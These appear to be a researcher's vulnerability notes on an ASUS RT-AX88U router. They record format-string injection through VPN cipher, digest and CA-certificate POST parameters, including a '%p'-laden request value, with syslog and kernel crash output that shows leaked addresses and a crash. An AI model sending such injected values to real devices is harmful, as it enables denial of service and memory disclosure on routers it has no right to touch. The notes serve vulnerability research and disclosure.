 ```
Mar 14 16:23:17 avahi-daemon[3477]: Alias name "RT-AX88U" successfully established.
Mar 14 16:23:46 bsd: bsd: Sending act Frame to 58:ce:2a:4a:49:1c with transition target eth7 ssid 3c:7c:3f:53:c1:04
Mar 14 16:23:46 bsd: bsd: BSS Transit Response: ifname=eth6, event=156, token=1c, status=0, mac=3c:7c:3f:53:c1:04
Mar 14 16:23:46 bsd: bsd: BSS Transit Response: STA accept
```


## VPN Server Config

### 1

5/28/23

New crashes / format strings in the actual VPN config files. Advanced VPN Config, modify POST params:

Vulnerable parameters:
`vpn_server_cipher`
`vpn_server_digest`

Syslog Output:
```
May 28 10:29:16 rc_service: httpd 2726:notify_rc restart_openvpnd;restart_chpass;restart_samba
May 28 10:29:17 vpnserver1[7115]: OpenVPN 2.4.12 arm-buildroot-linux-gnueabi [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [MH/PKTINFO] [AEAD] built on May 15 2023
May 28 10:29:17 vpnserver1[7115]: library versions: OpenSSL 1.1.1n  15 Mar 2022, LZO 2.03
May 28 10:29:17 vpnserver1[7116]: WARNING: using --duplicate-cn and --client-config-dir together is probably not what you want
May 28 10:29:17 vpnserver1[7116]: NOTE: your local LAN uses the extremely common subnet address 192.168.0.x or 192.168.1.x.  Be aware that this might create routing conflicts if you connect to the VPN server from public locations such as internet cafes that use the same subnet.
May 28 10:29:17 vpnserver1[7116]: NOTE: the current --script-security setting may allow this configuration to call user-defined scripts
May 28 10:29:17 vpnserver1[7116]: PLUGIN_INIT: POST /usr/lib/openvpn-plugin-auth-pam.so '[/usr/lib/openvpn-plugin-auth-pam.so] [openvpn]' intercepted=PLUGIN_AUTH_USER_PASS_VERIFY 
May 28 10:29:17 vpnserver1[7116]: Diffie-Hellman initialized with 2048 bit key
May 28 10:29:17 vpnserver1[7116]: Cipher AAAA0xe0c7d6000xffadc8c00xffadc not supported
May 28 10:29:17 vpnserver1[7116]: Exiting due to fatal error
```

### 2

More crashes / weird shit when submitting tainted certificates. Kernel panic!

Caused by including things like "%p%p%p%p" in the certificate config, breaks VPN again.

Request Param:
`vpn_crt_server1_ca=-----BEGIN+CERTIFICATE-----%25p%25p%25p%25p%25p[...]`

```
May  5 01:05:02 crashlog: <6>tun: (C) 1999-2004 Max Krasnyansky <maxk@qualcomm.com>
May  5 01:05:02 crashlog: <6>IPv6: ADDRCONF(NETDEV_UP): tun21: link is not ready
May  5 01:05:02 crashlog: <6>IPv6: ADDRCONF(NETDEV_UP): tun21: link is not ready
May  5 01:05:02 crashlog: <6>device tun21 entered promiscuous mode
May  5 01:05:02 crashlog: <6>potentially unexpected fatal signal 11.
May  5 01:05:02 crashlog: <4>
May  5 01:05:02 crashlog: <4>CPU: 1 PID: 1 Comm: init Tainted: P           O    4.1.51 #4
May  5 01:05:02 crashlog: <4>Hardware name: Broadcom-v8A (DT)
May  5 01:05:02 crashlog: <4>task: ffffffc03e85d440 ti: ffffffc03e860000 task.ti: ffffffc03e860000
May  5 01:05:02 crashlog: <4>PC is at 0xf6f22624
May  5 01:05:02 crashlog: <4>LR is at 0xf6c40fc0
May  5 01:05:02 crashlog: <4>pc : [<00000000f6f22624>] lr : [<00000000f6c40fc0>] pstate: 60070010
May  5 01:05:02 crashlog: <4>sp : 00000000ff956590
May  5 01:05:02 crashlog: <4>x12: 00000000f6f22618 
```